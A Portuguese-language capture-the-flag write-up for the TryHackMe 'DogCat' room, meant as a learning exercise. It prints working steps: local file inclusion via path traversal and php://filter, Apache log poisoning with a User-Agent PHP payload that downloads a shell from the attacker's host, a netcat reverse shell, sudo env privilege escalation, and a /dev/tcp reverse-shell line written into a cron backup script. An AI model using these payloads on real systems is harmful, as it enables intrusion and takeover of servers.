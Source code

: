 # TryHackMe - DogCat

**Índice**

Lista de verificação:

- [ ]  Iniciar VPN TryHackMe
- [ ]  Varredura de Portas com “nmap -A [IP]”.
- [ ]  Verificar código-fonte da página.
- [ ]  Verificar se PHP está em execução.
- [ ]  Verificar a necessidade de encodar URL para RCE ou LFI
- [ ]  Verificar requisições no BurpSuite

## Sobre

Resolução da Room DogCat - TryHackMe.

## Informações

[https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Execução

Iniciamos um PortScan com `nmap -A [IP]` no HOST:

![Captura de tela de 2023-06-28 21-03-29.png](https://file.notion.so/f/s/169bdeda-d689-4b77-a7d6-cb9103324a11/Captura_de_tela_de_2023-06-28_21-03-29.png?id=66e67b11-e308-4770-b1d5-46bbe43a1460&table=block&spaceId=254b86ca-c25a-482f-bb36-3ae97ba31c84&expirationTimestamp=1692972000000&signature=eOxu-Df8ugVTIgGMzYsiUfzjNwbXkKlElfJZXa-G65I&downloadName=Captura+de+tela+de+2023-06-28+21-03-29.png)

O site contém 2 botões “**A dog”** e “**A cat**”, e o código-fonte aparentemente executa um arquivo PHP de acordo com o botão pressionado.

![Captura de tela de 2023-06-28 21-06-49.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-06-49.png)

![Captura de tela de 2023-06-28 21-08-21.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-08-21.png)

Nesse caso podemos fazer um “teste” PHP adicionando um carácter no ***`/?view=dog`***

![Captura de tela de 2023-06-28 21-11-11.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-11-11.png)

Como esperado ele diz não poder encontrar o arquivo ***dog*.php*** para executar a função *`include()`.*

Aqui podemos esperar um possível RCE. Podemos usar a URL para navegar e executar arquivos PHP, para teste podemos tentar fazer a mesma coisa para ***cat*** e ***index***. Nesse caso específico, “dog” é como se fosse um argumento necessário para “bypassar” a função `include()`, para depois fazermos o “parse” utilizando **`/../`**

> *No contexto da exploração de uma vulnerabilidade RCE/LFI, pode-se usar 
"http://<ip>/?view=php://filter/read=convert.base64-encode/resource=dog/../index" para contornar restrições impostas pelo site.*
> 

No caso do ***`index.php` ,***durante a requisição ele espera alguma constante a ser declarada.

![Captura de tela de 2023-06-28 21-23-27.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-23-27.png)

![Captura de tela de 2023-06-28 21-23-36.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_21-23-36.png)

Sabemos que conseguimos executar arquivos .php em `/var/www/html/` , sendo assim podemos tentar fazer a leitura de alguns arquivos do sistema/servidor.

Para conseguimos ter acesso a algum arquivo, temos que ter em mente a navegação via terminal por diretorios linux. Sabemos que nossa base é `?view=dog/../`  e estamos no diretório `/var/www/html/` então usamos `../../../` para irmos ao diretório raíz (/) , e a partir daí buscar nosso arquivo.

Após escolher o arquivo (aí tem que saber a localização de cabeça rs), pedimos para que seja escrito na tela com o **&ext=**  `[IP]/?view=dog/../../../../etc/passwd&ext`= .

### Porque **ext**?

Após verificar o `**dog.php**` usando filtro para imprimir o código em **BASE64** `?view=php://filter /convert.base64-encode/resource=` em `dog/../index` podemos verificar o seguinte código:

---

```php
<!DOCTYPE HTML>
<html>
<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>
<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>
    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>
</html>
```

---

No trecho `$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';` podemos ver que é adicionado **.php** ao final do que estiver na string mencionada. Nesse caso ao digitar **dog&ext,** estamos querendo dizer **dog.php**

---

![Captura de tela de 2023-06-28 22-11-09.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-11-09.png)

---

Sabendo que conseguimos ler arquivos, podemos fazer um **LogPoison** ([link](https://rodolfomarianocy.medium.com/aprenda-a-fazer-log-poisoning-em-ssh-e-apache-via-lfi-65f08a2f7d1d)).

> *Trata-se de sujar logs de serviços e através de RCE e forçar uma execução e uma resposta vinda do servidor, como uma execução de código remoto que vai interpretar e executar nosso código PHP malicioso.*
> 

Em primeiro lugar, sabemos que o serviço WEB que roda neste host é um **Apache**, por padrão o diretório de logs fica localizado em `var/log/apache2/access.log` , e para acessar podemos usar `[IP]/?view=dog/../../../../../../../var/log/apache2/access.log&ext=` 

---

![Captura de tela de 2023-06-28 22-40-58.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-28_22-40-58.png)

---

Agora podemos testar o log, dando um comando qualquer em `?view=` . Neste caso digitei **ls -la** e observando o código-fonte da página, podemos ver uma nova requisição armazenada no `access.log` .

![Captura de tela de 2023-06-29 19-58-33.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_19-58-33.png)

O log armazena IP, DT/HR, o tipo de requisição, caminho, e o **UserAgent**. Aqui podemos injetar um arquivo PHP malicioso para obtermos uma SHELL Reversa. ([link](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php))

Após configurar devidamente o shell.php, inicio um serviço “WebHTTP” utilizando o Python3:
`sudo python3 -m http.server 80`

E utilizando o BurpSuite, altero o **UserAgent** da requisição do Access.log para o seguinte:

`<?php file_put_contents('shell.php',file_get_contents('http://[IP]/shell.php'))?>`

![Captura de tela de 2023-06-29 20-17-40.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-17-40.png)

---

Nesse momento nosso serviço Web confirma o acesso ao arquivo.

![Captura de tela de 2023-06-29 20-38-22.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-38-22.png)

Agora é só obter a Shell Reversa com o host. Podemos fazer isso usando o NetCat: 

`nc -nlvp 5555`

E pronto! Temos acesso ao Host com sucesso!

![Captura de tela de 2023-06-29 20-40-28.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-40-28.png)

Utilizando o comando `find / -name **flag** 2>/dev/null` , podemos começar a encontrar as Flags.

![Captura de tela de 2023-06-29 20-47-12.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-47-12.png)

Ok, agora vamos ver o que nosso usuário pode executar …

![Captura de tela de 2023-06-29 20-50-26.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-50-26.png)

Ótimo! podemos executar o env como superusuario sem a necessidade de senha. Para facilitar, podemos acessar o GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) para pesquisar os comandos.

![Captura de tela de 2023-06-29 20-52-39.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-52-39.png)

---

![Captura de tela de 2023-06-29 20-53-37.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_20-53-37.png)

Finalmente! Como ROOT tudo fica mais fácil. Agora podemos terminar nossa ROOM encontrando as FLAGS restantes usando o mesmo comando que antes (`find / -name **flag** 2>/dev/null`), só que agora como ROOT.

### E a Flag4?!

Boa pergunta rs

Precisei colar de um Walkthrough do canal “[Optional](https://www.youtube.com/watch?v=zGDbi15Jkqw)” no YouTube, e lá ele mostra um arquivo em `/opt/backups/backup.tar`

Pelo que entendi esse é um container Docker. E pela última modificação do arquivo, ele deve ser executado frequentemente. Então seguindo os passos do “Optional”, como ROOT, sobrescrevi o `backup.sh` usando o comando echo e tive que aguardar uns minutinhos:

`echo -e "#!/bin/bash\nbash -i >& /dev/tcp/10.13.5.224/5555 0>&1" > backup.sh`

![Captura de tela de 2023-06-29 21-25-30.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-25-30.png)

---

E por fim a Flag4 !

---

![Captura de tela de 2023-06-29 21-26-07.png](TryHackMe%20-%20DogCat%20eafaeda6ff944b2c8408269d0b76c9a4/Captura_de_tela_de_2023-06-29_21-26-07.png)

---

Obrigado por ler, espero que tenha aprendido alguma coisa :)
